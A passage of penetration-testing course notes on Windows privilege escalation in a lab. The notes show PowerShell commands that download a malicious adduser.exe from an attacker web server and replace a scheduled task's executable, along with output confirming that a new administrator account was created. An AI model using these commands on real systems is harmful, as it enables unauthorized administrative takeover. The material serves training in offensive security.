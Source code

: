 To do so, we'll start a Python3 web server to serve our cross-compiled file, **adduser.exe**, and use **iwr** to download it to CLIENTWK220
+ We'll also copy the original **BackendCacheCleanup.exe** so we can restore it after our privilege escalation attack is successful
```
PS C:\Users\steve> iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe

PS C:\Users\steve> move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak

PS C:\Users\steve> move .\BackendCacheCleanup.exe .\Pictures\
```
+ Once the scheduled task is executed again, _dave2_ should be created and added to the local _Administrators_ group
+ After waiting a minute, we can check if our privilege escalation attack was successful:
```
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.
```
+ Above shows that we successfully replaced the executable file used by the scheduled task to create an administrative user whose credentials we control

### Using Exploit 
In the previous sections, we attempted to elevate our privileges by searching for sensitive information on a system or abusing Windows components such as Windows services or scheduled tasks
+ In this section, we'll discuss three different kinds of exploits leading to privilege escalation and then show one of them in an example

#### Application-Based Vulnerabilities
The first kind is to exploit _application-based_ vulnerabilities
+ Installed applications on a Windows system may contain different types of vulnerabilities as we learned in the Module "Locating Public Exploits"
+ If these applications run with administrative permissions and we can exploit a vulnerability that leads to code execution, we can also successfully elevate our privileges
